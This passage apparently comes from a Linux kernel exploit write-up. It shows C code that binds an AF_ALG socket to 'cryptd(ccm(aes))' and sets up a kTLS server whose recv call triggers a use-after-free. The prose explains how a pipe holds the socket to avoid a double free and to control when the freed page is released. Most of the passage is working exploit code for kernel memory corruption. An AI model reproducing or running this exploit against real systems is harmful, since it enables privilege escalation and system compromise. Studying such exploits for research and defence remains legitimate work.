 Use `AF_ALG` to register `cryptd` for the algorithm:

```c
int sock = socket(AF_ALG, SOCK_SEQPACKET, 0);
struct sockaddr_alg sa = {
    .salg_family = AF_ALG,
    .salg_type = "aead",
    .salg_name = "cryptd(ccm(aes))",
};
bind(sock, (struct sockaddr *)&sa, sizeof(sa));
```

After setting up the server and client, triggering a recv leads to the UAF. To prevent a double free, I use a pipe to keep the socket from being fully released and freeing page again. The pipe also gives me control over when the page is freed.

```c
void run_server(int pipe) {
    pin_cpu(1);
    int server_fd, client_fd;
    struct sockaddr_in server_addr, client_addr;
    socklen_t addr_len = sizeof(client_addr);

    if ((server_fd = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
        perror("socket");
        exit(1);
    }

    memset(&server_addr, 0, sizeof(server_addr));
    server_addr.sin_family = AF_INET;
    server_addr.sin_addr.s_addr = INADDR_ANY;
    server_addr.sin_port = htons(PORT);

    if (bind(server_fd, (struct sockaddr *)&server_addr, sizeof(server_addr)) < 0) {
        perror("bind");
        exit(1);
    }

    if (listen(server_fd, 5) < 0) {
        perror("listen");
        exit(1);
    }


    if ((client_fd = accept(server_fd, (struct sockaddr *)&client_addr, &addr_len)) < 0) {
        perror("accept");
        exit(1);
    }

    if (setup_ktls(client_fd, 0) < 0) {
        close(client_fd);
        close(server_fd);
        exit(1);
    }
    char buf[0x20];
    int bytes_received = recv(client_fd, buf, 0x20, 0);
    puts("recv done");
    if (bytes_received > 0) {
    } else {
        perror("recvmsg");
    }
    SYSCHK(read(pipe, buf, 1)); // hold
    puts("close server");
    close(client_fd);
    close(server_fd);
```